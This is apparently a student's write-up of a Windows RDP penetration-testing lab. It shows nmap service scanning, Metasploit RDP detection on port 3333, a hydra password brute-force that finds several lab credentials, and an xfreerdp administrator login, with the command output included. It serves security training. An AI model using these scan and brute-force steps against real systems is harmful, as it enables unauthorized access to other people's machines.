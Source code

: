 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
---
```


# 🧪 Windows Insecure RDP Service

## Overview

A Kali GUI machine and a target machine running a vulnerable RDP service are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the running RDP service and its valid port using the tools available on the Kali machine and then exploit the vulnerability using the appropriate method.

**Note:** rdesktop will not work on this setup as it does not support NLA. Please use xfreerdp to connect to the RDP server.

**Objective:** Exploit the application and retrieve the flag!

Instructions:

- Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
- The IP address of the target machine is mentioned in the file “/root/Desktop/target” 
- Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1 
- Dictionaries to use: 
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

## Solution

10.2.17.254

```bash
nmap -p- -T5 -Pn -sV $TRG
Starting Nmap 7.70 ( https://nmap.org ) at 2024-03-25 22:52 IST
Nmap scan report for 10.2.17.254
Host is up (0.0026s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
5985/tcp  open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
49165/tcp open  msrpc          Microsoft Windows RPC
49177/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.49 seconds
```

```bash
msf5 > search rdp_scanner

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/rdp_scanner                   normal  No     Identify endpoints speaking the Remote Desktop Protocol (RDP)


msf5 > use 0
msf5 auxiliary(scanner/rdp/rdp_scanner) > setg RHOSTS 10.2.17.254
RHOSTS => 10.2.17.254
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333
RPORT => 3333
msf5 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 10.2.17.254:3333      - Detected RDP on 10.2.17.254:3333      (Windows version: 6.3.9600) (Requires NLA: Yes)
[*] 10.2.17.254:3333      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.17.254 -s 3333
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-25 23:02:55
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.2.17.254:3333/
[3333][rdp] host: 10.2.17.254   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.2.17.254   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.2.17.254   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.2.17.254   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
[STATUS] 6724.00 tries/min, 6724 tries in 00:01h, 339 to do in 00:01h, 4 active
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-25 23:03:59
```

Let's try with the `administrator` account first:

```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.17.254:3333
[23:05:26:994] [177310:177311] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[23:05:26:014] [177310:177311] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[23:05:26:014] [177310:177311] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[23:05:26:014] [177310:177311] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[23:05:26:014] [177310:177311] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.2.17.254:3333) 
[23:05:26:014] [177310:177311] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[23:05:26:014] [177310:177311] [ERROR][com.freerdp.crypto] - Common Name (CN):
[23:05:26:014] [177310:177311] [ERROR][com.freerdp.crypto] - 	WIN-OMCNBKR66MN
[23:05:26:014] [177310:177311] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.2.17.254:3333 (RDP-Server):
	Common Name: WIN-OMCNBKR66MN
	Subject:     CN = WIN-OMCNBKR66MN
	Issuer:      CN = WIN-OMCNBKR66MN
	Thumbprint:  29:ff:42:14:3e:fa:d9:fa:f8:1d:05:9f:d3:30:97:a9:1f:d4:91:a3
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
[23:05:32:091] [177310:177311] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: Asia/Kolkata
[23:05:32:121] [177310:177311] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[23:05:32:121] [177310:177311] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_RGB16
[23:05:32:141] [177310:177311] [INFO][com.winpr.clipboard] - initialized POSIX local file subsystem
[23:05:32:617] [177310:177311] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
```

![[Pasted image 20240325183610.png]]

![[Pasted image 20240325183659.png]]
